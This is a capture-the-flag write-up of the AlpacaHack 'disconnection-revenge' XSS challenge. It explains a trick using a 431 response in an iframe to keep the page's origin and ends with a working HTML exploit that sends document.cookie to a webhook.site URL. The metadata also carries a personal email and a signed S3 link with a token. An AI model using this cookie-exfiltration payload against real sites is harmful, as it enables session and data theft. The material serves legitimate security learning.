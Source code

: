 ```yaml
---
id: 14e48583-e65d-80e6-b8d5-c53f07905d97
title: >-
  Bypassing null Origin in 4xx Status Code Using Iframe | disconnection-revenge
  Writeup | AlpacaHack Round 7 (Web)
created_time: 2024-11-30T11:42:00.000Z
last_edited_time: 2025-05-22T09:27:00.000Z
cover_image: ./imgs/just-a-chill-guy_3tLjvXZj.jpg
icon_emoji: 😭
categories:
  - XSS
verification:
  state: unverified
  verified_by: null
  date: null
page: >-
  Bypassing null Origin in 4xx Status Code Using Iframe | disconnection-revenge
  Writeup | AlpacaHack Round 7 (Web)
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/just-a-chill-guy_3tLjvXZj.jpg

---
```


Unfortunately, I solved this challenge only 30 minutes after the CTF ended. Here is my write-up about the challenge.

![](./imgs/image_DwgIE5Io.png)

![](./imgs/image_OeAvG4ga.png)

# Description

This is a fixed challenge of `disconnection`.

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/05b115ea-7d4c-4e24-b39d-6e32117c2161/disconnection-revenge.tar.gz?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB4666UFIX6KX%2F20250523%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250523T100950Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEDIaCXVzLXdlc3QtMiJGMEQCIAkuAlVT3MLYLdiE%2FgkVCJzi5jIluk0gGPl71647klMzAiB4fRKImC2%2FnKWYj8I1cU3fZox7GFpR6FSFOTF80OuHySqIBAjr%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F8BEAAaDDYzNzQyMzE4MzgwNSIMqhP1AOSApoFrqxT1KtwDVqZfe%2Fmedtv06qH3LhNr2HJSQEABYvFq9uERmo49Fva%2F62nKsWcq%2F9X62mBWwG0WwEXMTDs2teJMK%2BRJ5P%2FF9aUC%2Fh52NBPw57dSsaBINZrKpYOPIAOFYcURXC5m32yV6mMnaAO412fUQuJtdKcCzbAjDg62HptndOwPmsA0o%2B2GvLLj%2F2O5tY4GIwxSJX6HDRf%2BDqZVE5jIAIKDTzLN1ljN6SkRAcGNFvQcO3JCb0KwhsMEDQqt3E4LpgMgNy%2FLIaXdIWGCGL7OIAwl1dJs0TjWViCOTDstxz7vYctk3o4kjfP9AcodEh63MomHn%2BQOx2Gj1TGQrwZn1ZvOi4q53vmRd%2FipUB6%2FVcVPcru7z69sUFH7k5nksokP4kdJAeW1tc10CEopAZ0s33IZ%2FrY2gdfbXyrxxvn8ka7S3BIrSTIY2odSUpDC3LqpcHpOkDaIYh9FpqhfVDkLJh6B42jqUGA2zOPDkBOL%2FaCsjqWuEsAjWRqH3XdV3URMj4yA4w%2BiJXkgVOAxDHQHysdNmlAsp1h6AnT6mr2I21sXuuRTSRmTnZt4%2F2jrY%2BRixJpvPg7chItapqBu2z1RxEtL%2FDg7usKYksaHum2hMrDWNdxthbKhHWMc7m1%2FZAaNH9IwzIvBwQY6pgGDAdiTgfCcTkBTgcsIyTiarfo2XZzJ8o%2FDC1FNN1FKDUi9y9IaYk8hv41a%2FRbV0I%2FMHb0glbo8xlrerKmmmDTwBMDxeWDpnwOyTAyr1ZnhcAQ2yiKUZisX4TOsP421amjaSdTTIplqSUZsB3dAOlsfg%2BOPNnd5vumSaHiFPUCZyq5d%2BiVHvcvZ0%2B%2BJN3V%2FSwmqz3dfX6OQGsNWYoOj8ZDvGhF7VKrq\&X-Amz-Signature=2f6fc8f8fb8a33929b4f33fc170904921ec5ddab9c4819d3509f3a1474637aa3\&X-Amz-SignedHeaders=host\&x-id=GetObject)

*   Challenge: [http://34.170.146.252:55944](http://34.170.146.252:55944/), Admin bot: [http://34.170.146.252:56152](http://34.170.146.252:56152/) shared

# Exploit

In this challenge, we are given source code like this:

```javascript
import express from "express";

const html = `
<h1>XSS Playground</h1>
<script>eval(new URLSearchParams(location.search).get("xss"));</script>
`.trim();

express()
  .use("/", (req, res, next) => {
    res.setHeader(
      "Content-Security-Policy",
      "script-src 'unsafe-inline' 'unsafe-eval'; default-src 'none'"
    );
    next();
  })
  .get("/", (req, res) => res.type("html").send(html))
  .all("/*", (req, res) => res.socket.destroy()) // disconnected
  .use((err, req, res, next) => {
    // revenge!
    res.socket.destroy(); // disconnected
  })
  .listen(3000);

```

The interesting part about this source code is in the Content Security Policy (CSP):

```javascript
res.setHeader(
  "Content-Security-Policy",
  "script-src 'unsafe-inline' 'unsafe-eval'; default-src 'none'"
);

```

The disconnect mechanism:

```javascript
.all("/*", (req, res) => res.socket.destroy()) // disconnected
.use((err, req, res, next) => {
  // revenge!
  res.socket.destroy(); // disconnected
})

```

There's also a code injection vulnerability here that allows us to gain XSS:

```javascript
const html = `
<h1>XSS Playground</h1>
<script>eval(new URLSearchParams(location.search).get("xss"));</script>
`.trim();
```

The flag is located in the `/cookie` path, as shown in this snippet of the source code:

```javascript
await page.setCookie({
  name: "FLAG",
  value: FLAG,
  domain: APP_HOST,
  path: "/cookie", // 🍪
});

```

The interesting part is that we can't get the flag easily by accessing `/cookie` directly using XSS and get the cookie from that. The disconnect mechanism causes us to be instantly disconnected when accessing any URL except `/`, resulting in a browser error. Therefore, when we try to access URLs like `/cookie`, the browser will instantly error ERR\_EMPTY\_RESPONSE, and the origin will be null as shown in the image below.

![](./imgs/image_xyiZIUrb.png)

There’s a trick introduced in a previous Google CTF to bypass this issue, as detailed in this [Google CTF solution](https://github.com/google/google-ctf/tree/8ea1054a4a6af49e8cf14e10896dc94d73126a29/2023/quals/web-postviewer2/solution#no-csp-subpage). The trick involves adding an arbitrarily large number of characters into the parameters to make the server return `431 (Request Header Fields Too Large)`. However, simply adding a large number of characters to the parameters won't work, as shown in the image below, where the origin is still null.

![](./imgs/image_oXKFjaHs.png)

The key is to iframe the `431` page, which somehow makes the origin become the original origin instead of null, as shown in the image below.

![](./imgs/image_U9FpYp4t.png)

But… there’s always a problem after problem. The cookie isn’t included in the iframe because the cookie isn’t set to `SameSite=None`, so it’s not included in the iframe in a different origin.

![](./imgs/image_nVR512CH.png)

I just found a strange trick after trying to open a new opener inside the `/cookie` path here:

![](./imgs/image_8Oq9CJYo.png)

When I try to `open("")`, it will have an origin, and the location is `about:blank`. There’s also the flag that should be in the `/cookie` path. I assume that the window we open is somehow in the `/cookie` path, but with the `about:blank` location. I don't know why this happens 💀. But here is my final exploit:

```html
<html>
    <body>
        <iframe></iframe>
        <iframe></iframe>
        <script>
            async function main(){
                const target = "disconnection-revenge"
                const sleep = (ms) => new Promise(resolve => setTimeout(resolve, ms));
                var iframe = document.getElementsByTagName('iframe')[0];
                iframe.src = "http://"+target+":3000/cookie/?"+"A".repeat(100000);
                await sleep(1000);
                var iframe2 = document.getElementsByTagName('iframe')[1];
                iframe2.src = "http://"+target+":3000/?xss="+"w = top.frames[0].open('');setTimeout(()=>{open(`https://webhook.site/37fa4a4c-9842-42db-9431-a15d81aee4a0?${w.document.cookie}`)},1000)";
                await sleep(1000);
            }
            main();
        </script>
    </body>
</html>

```

![](./imgs/image_BQK3W663.png)
